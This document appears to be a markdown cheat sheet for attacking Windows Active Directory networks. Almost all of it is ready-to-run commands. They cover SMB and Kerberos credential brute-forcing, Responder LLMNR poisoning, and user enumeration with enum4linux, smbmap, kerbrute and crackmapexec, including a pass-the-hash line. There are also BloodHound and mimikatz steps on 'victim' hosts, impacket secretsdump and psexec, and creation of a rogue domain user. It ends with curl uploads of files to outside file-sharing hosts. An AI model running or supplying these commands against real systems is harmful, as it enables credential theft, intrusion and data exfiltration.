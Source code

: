 # <h3> Steps:-</h3>
```
1. First of all we want Inventory of organization
2. Separate IP’S of Systems, Servers, Networking Devices   
3. Verify these IP'S Using PingInfo / AngryIPScanner
4. Standeruser For Auth Scan but try from your END to find user/pass
```
# <h3> Target </h3>
```
For Ad Systems
1). Getting IP
2). Getting Local USER
3). Getting Local USER PASSWORD
4). Dump All Hashes 
5). Enumerate for AD User
6). Enumerate for AD User Password
7). Enumerate for AD Domain
8). Enumerate for AD Domain Password
9). Login
```
# <h3> Brute-Force As Local User On These Port's </h3>
```
FTP(21) 
SSH(22) 
Kerberos(89) 
SMB(139/445) 
LDAP(389) 
MSSQL(1433/1434) 
MYSQL(3306) 
RDP(3389) 
VNC(5900)
```
# <h2> Tool 1. TIP ( But Go For SMB First ) Only For local user account. </h2>
```
msfconsole
auxiliary/scanner/smb/smb_login
set PASS_FILE /root/Desktop/pass.txt
set USER_FILE /root/Desktop/user.txt
set RHOSTS file:/root/Desktop/host.txt
```
```
use auxiliary/scanner/smb/smb_enumshares
set rhosts 192.168.1.17
set smbuser user
set smbpass pass
exploit
```
```
use auxiliary/scanner/smb/smb_lookupsid
set rhosts 192.168.1.17
set smbuser user
set smbpass pass
exploit
```
# <h3> If AD Implemented. </h3>
```
set SMBDomain ADDomain 
```
# <h3> If LOCKOUT Policy is Set Then Use. </h3>
```
set ABORT_ON_LOCKOUT true
```
# <h2> Tool 2. Getting USERLLMNR/NBT-NS Poising with the help of Responder. </h2>
```
sudo responder -I ens33 -wdrf
```
# <h2> Tool 3. ENUM4LINUX. </h2>
```
enum4linux -U 10.10.0.50
enum4linux -S 10.10.0.50
enum4linux -P 10.10.0.50
enum4linux -o 10.10.0.50
enum4linux -U 10.10.0.50
enum4linux -a 10.10.0.50
```
# <h2> Tool 4. SMBMAP. </h2>
```
smbmap -H 192.168.1.40
smbmap -H 192.168.1.17 -u user -p pass

```
# <h2> Tool 5. SMBCLIENT. </h2>
```
smbclient -L //10.10.0.50/
smbclient -L //10.10.0.50/ -U '' -N
smbclient //10.10.0.50/tmp
```
# <h2> Tool 6. KERBRUTE. </h2>
```
msf> use auxiliary/gather/kerberos_enumusers
gobuster dns -d domain.local -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt
enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>
smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>
smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username
enum4linux -a -u "user" -p "password" <DC IP>
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```

# <h2> Tool 7. Bloodhound. </h2>
```
First Start ------>>>>> neo4j console
Open it in browser ------>>>>> http://localhost:7474/
Login with ------>>>>> neo4j/123456 Default pass is {neo4j/neo4j}
Open ------>>>>> bloodhound in terminal
Login ------>>>>> user/pass
```

# <h3> Connect with victim windows systems and put these 3 files. </h3>
```
1). mimikatz.exe
2). powerView.ps1
3). SharpHound.ps1
```

# <h3> Use these cmds in victim systems. </h3>
```
1). powershell -ep bypass
2). ..\SharpHound.ps1
3). Invoke-Bloodhound -CollectionMethod All -Domain controller.local -ZipFileName loot.Zip
```

# <h3> Take loot.Zip file to import bloodhound in our systems.  </h3>
```
1). import graph ---->>> uploaded file here
2). Check it and enjoy it.
```

# <h2> Tool 8. IMPACKET. </h2>
```
impacket-psexec ad.domain/user:pass@IP
impacket-wmiexec ad.domain/user:pass@IP
impacket-secretsdump ad.domain/user:pass@IP
impacket-GetADUsers ad.domain/user:pass@IP
impacket-mimikatz ad.domain/user:pass@IP
impacket-smbpasswd ad.domain/user:pass@IP
```
# <h2> Tool 9. RPC-Client. </h2>
```
rpcclient -U ad.domain%user:pass IP
Domain Information Query ----->>>> querydominfo
Enumerating Domain Users ----->>>> enumdomusers
Enumerating Domain Groups ----->>>> enumdomgroups
Group Queries ----->>>> querygroup 0x200
User Queries ----->>>> queryuser User
Enumerating Privileges ----->>>> enumprivs
Get Domain Password Information ----->>>> getdompwinfo
Creating Domain User  ----->>>> createdomuser hacker  ----->>>> setuserinfo2 hacker 24 Password@1
Delete Domain User ----->>>> deletedomuser hacker
Net Share Enumeration ----->>>> netshareenumall/netshareenum
```
# <h2> Tool 10. Transfer data from one system to another </h2>
```
1). putty-tools { used if SSH is opened to recevie any file}
pscp user@192.168.138.116:/Users/Aniket/Desktop/task.txt ~/Documents 

2). python http.server
python -m SimpleHTTPServer 9000
python3 -m http.server 9000

3). Keep
Website --------------->>>>> https://www.keep.sh/
CMD --------->>>>> curl --upload-file ./your-file.txt https://free.keep.sh ------>>>>> https://free.keep.sh/9ab64df49d/your-file.txt
Download --------------->>>>> curl -L https://free.keep.sh/9ab64df49d/your-file.txt > your-file.txt 

4). Bashupload
Website --------------->>>>> https://bashupload.com/
CMD --------------->>>>> curl bashupload.com -T your_file.txt
Download --------------->>>>> wget bashupload.com -T your_file.txt
```
# <h2> Exploit Services by Searchsploit, Exploit DB </h2>
